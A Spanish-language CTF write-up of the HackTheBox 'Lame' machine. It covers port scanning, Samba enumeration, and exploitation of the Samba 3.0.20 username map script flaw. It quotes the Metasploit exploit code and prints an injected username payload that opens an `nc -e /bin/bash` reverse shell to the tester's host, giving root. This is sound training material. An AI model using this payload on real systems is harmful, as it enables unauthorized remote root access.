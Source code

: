 ```yaml
---
title: HTB - Lame
published: true
categories: [Linux]
tags: [eJPT, Fácil]
---
```


<img src="/assets/HTB/Lame/lame.png">

¡Hola!
Vamos a resolver de la máquina `Lame` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Samba 3.0.20 < 3.0.25rc3**
- **Username Map Script [Command Execution]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Lame`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=42.3 ms

--- 10.10.10.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### Reconocimiento Samba

* * *

Primero de todo vamos a buscar algún tipo de vulnerabilidad asociada a la versión 3.0.20 de Samba 

```bash
searchsploit samba 3.0.20
-----------------------------------------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                                       |   Path
-----------------------------------------------------------------------------------------------------------------------------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                              |   multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script Command Execution  (Metasploit)                    |   unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                               |   linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                               |   linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                       |   linux_x86/dos/36741.py
-----------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```
Encontramos un script en Ruby para usar en Metasploit pero como vamos a hacerlo todo de forma manual vamos a echar un ojo al script a ver como explota la vulnerabilidad

```ruby
def exploit

    connect

    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
        simple.client.negotiate(false)
        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
        # nothing, it either worked or it didn't ;)
    end

    handler
```

Podemos ver que utiliza el campo `username` para inyectar un código + un payload. para tratar de aprovecharnos de esta vulnerabilidad vamos a seguir enumerando el servicio

Iniciamos la enumeración del servicio Samba que corre por el puerto 445. Primero de todo vamos a tratar de conocer todos los servicios compartidos a nivel de red empleando un `NULL SESSION (-N)` debido a que aún no tenemos credenciales

```bash
❯ smbclient -L 10.10.10.3 -N
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```
Vaya, parece que no le ha gustado. Buscamos en Google el error que nos muestra el output y rápidamente encontramos que añadiendo `--option 'client min protocol = NT1'` ya no nos sale tal error

```bash
❯ smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

Bien, ahora en lugar de listar vamos a tratar de conectarnos al recurso compartido `tmp`

```bash
❯ smbclient //10.10.10.3/tmp -N --option 'client min protocol = NT1'
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Llegados a este punto vamos a comprobar si nos podemos aprovechar del exploit que encontramos para tener ejcución remota de comandos (RCE). Para ello haremos uso del comando `logon` el cual nos pide por parámetros usuario y password, donde en usuario inyectaremos el código observado en el exploit y como payload trataremos de enviarnos una traza ICMP a nuestro equipo. Nos ponemos en escucha en nuestro equipo con `tcpdump` y ejecutamos el comando

```bash
smb: \> logon "/=`nohup ping -c 1 10.10.14.64`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> 
```
```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:22:13.456735 IP 10.129.80.170 > 10.10.14.64: ICMP echo request, id 51223, seq 1, length 64
17:22:13.456766 IP 10.10.14.64 > 10.10.10.3: ICMP echo reply, id 51223, seq 1, length 64
```
Genial! Habemus RCE!! Con la misma metodología y con la herramienta netcat nos ponemos en escucha en el puerto 443 para entablar una reverse shell con la máquina víctima y con privilegios de root!

```bash
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.64 443`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \> 
```
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.3] 58893
whoami
root
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `cat` nos muestra el contenido.

```bash
#USER
find / -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
d67148095819deef3***************
```

```bash
#ROOT
find / -name root.txt
/root/root.txt
cat /root/root.txt
891c2d48be56c7f89***************
```

Hemos completado la máquina **Lame** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Lame/pwned.png">
